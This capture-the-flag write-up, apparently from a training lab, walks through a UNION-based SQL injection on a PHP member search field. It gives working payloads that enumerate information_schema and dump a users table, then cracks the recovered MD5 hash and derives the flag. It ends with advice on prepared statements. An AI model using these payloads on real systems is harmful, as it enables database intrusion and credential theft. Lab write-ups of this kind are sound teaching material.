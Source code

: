 # SQL injection on the member search field in the members page

## Vulnerability Details:

### Affected URL: `http://{IP_ADDR}/index.php?page=member`

### Issue Description:
Entering certain input, such as `union` triggers a SQL error that indicates SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT first_name, last_name FROM users WHERE users.user_id = ${input_value}
```
This query prints the first name and last name of the member with the given member ID. Since we don't need the website to display data about any specific member, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:
```
SELECT first_name, last_name FROM users WHERE users.user_id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

The result reveals a `users` table and two interesting columns: `Commentaire` and `countersign`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT commentaire, countersign FROM users
```

OUTPUT:
```
ID: -1 union select commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Since the password appears to be a hash, we need to determine the hash type before obtaining the original string. For this, we will use the hash-identifier tool on Kali Linux:
```
user@kali:~$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Now, it has been determined that the password is likely hashed with `MD5`. We will proceed to generate a word list in `wordlist.txt` and create a script named `md5comparer.sh`. The script will hash each word from the word list using MD5 and compare the generated hashes with the password until a match is found:
```
user@kali:~$ ./md5comparer.sh wordlist.txt $(cat pwd.txt)
no match found for: 'quarantedeux'
no match found for: 'quarante-deux'
no match found for: 'quarante_deux'
no match found for: 'Quarante-Deux'
no match found for: 'QuaranteDeux'
no match found for: '42'
no match found for: 'fortytwo'
no match found for: 'forty-two'
no match found for: 'forty_two'
no match found for: 'Forty-Two'
HASHES MATCH FOR: 'FortyTwo'
Found match, exiting...
```
Here, a match is found for `FortyTwo`. Let's recall the discovered instruction:
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

We will, therefore, convert all the characters to lowercase: `FortyTwo -> fortytwo`

...and hash it with SHA-256:
```
user@kali:~$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
Thus, the flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Immediate Action Required:
Inspecting the HTML code, this line:
```
<a href="index.php">Home</a>
```
reveals that the website is coded in `PHP`.<br />
To avoid SQL injection in PHP, it is recommended to use `prepared statements` with `parameterized queries`. Below are examples demonstrating how to use prepared statements in PHP with MySQL using the `PDO extension`:

```
// Connect to database
$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Example with positional parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
   
// Example with named parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $userInput]);
```
In both examples, the user input is properly bound to the SQL query using placeholders (`?` for positional parameters or `:username` for named parameters). This way, the input is treated as data, preventing SQL injection attacks.
